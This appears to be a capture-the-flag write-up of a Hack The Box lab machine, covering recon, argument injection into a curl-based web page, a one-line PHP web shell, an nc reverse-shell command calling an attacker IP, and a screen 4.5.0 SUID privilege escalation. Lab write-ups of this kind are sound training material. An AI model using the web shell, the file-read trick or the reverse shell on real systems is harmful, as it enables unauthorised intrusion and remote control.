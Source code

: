 ![](images/boxInfo.png)

## nmap
```console
root@kali:~# nmap -sC -sV 10.10.10.24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-06 07:42 EST
Nmap scan report for 10.10.10.24
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds
```

## gobuster
```
/root/go/bin/gobuster dir -u 10.10.10.24 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

![](images/gobuster.png)

## webpages

![](images/index.png)

![](images/test.png)

![](images/hair.png)

![](images/uploads.png)

![](images/exposed.png)

## curl + LFI + RFI
input URL --> "http://localhost/test.html"  
the output contains %total %received etc. which suggests that its using curl to request the page  

![](images/curlTest.png)

so I tried basic command injection by adding semicolon(;), ampersand(&) and many other symbols and keywords  
but all of them gave the same error in output --> "not a good thing to put in a URL"  

![](images/curlSemicolon.png)

giving "file:///etc/passwd" as input worked because curl can do that  

![](images/curl_etcPasswd.png)

we can also read the user flag directly even without getting a shell  

![](images/curlUserFlag.png)

but we still need to get a shell  
"http://localhost/exposed.php" --> this just renders the exposed.php page and we can't read the php code  
but "file:///var/www/html/exposed.php" --> gives us the php code  

![](images/curlExposed.png)

we can see in the php code that all the useful symbols and keywords are filtered  
but we can still give arguments to the curl command  
so we can make it curl shell.php from our machine and output it in the uploads directory using -o  
shell.php just contains this one liner php code  
```php
<?php system($_GET["c"]); ?>
```

![](images/curl_phpShell.png)

## RCE
now we can access shell.php and execute commands and get a reverse shell  

![](images/rce_id.png)

we can go to the following URL to get a reverse shell  
```
10.10.10.24/uploads/shell.php?c=nc -e /bin/bash 10.10.14.24 8888
```

![](images/reverseShell.png)

# privEsc
## suid binary

![](images/suid.png)

## screen 4.5.0

![](images/searchsploit.png)

the PoC 41152.txt didn't worked so I switched to 41154.sh  
41154.sh gave some EOF error   
so I tried compiling the c files manually but that also gave some error  

![](images/eof.png)

![](images/cc1.png)

after searching for cc1 error, I found out that we need to install cc1 to be able to compile with gcc  
www-data obviously don't have the privilege to install anything  
so I compiled the c files on my machine and then used it on the target machine  
still it gave some error so i did the remaining steps manually as well  

![](images/socketsError.png)

![](images/rootShell.png)

